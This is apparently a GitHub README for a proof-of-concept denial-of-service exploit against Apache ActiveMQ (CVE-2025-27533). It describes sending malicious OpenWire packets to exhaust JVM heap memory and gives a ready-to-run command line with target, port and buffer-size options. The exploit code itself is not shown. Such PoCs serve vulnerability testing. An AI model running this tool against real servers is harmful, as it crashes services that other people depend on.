

# CVE-2025-27533-Exploit-for-Apache-ActiveMQ
(PoC) exploit for **CVE-2025-27533**, a Denial of Service (DoS) vulnerability in Apache ActiveMQ. This tool sends malicious OpenWire packets to exhaust the JVM heap memory of the target server,  and potentially crashing the ActiveMQ service on port `61616`.

USE
```
python CVE-2025-27533_Exploit.py --host <TARGET_IP> --port 61616 --total-packets 2000 --buffer-sizes 0x1E00000 0x3200000
```

--------------------------------------------------------------------------------

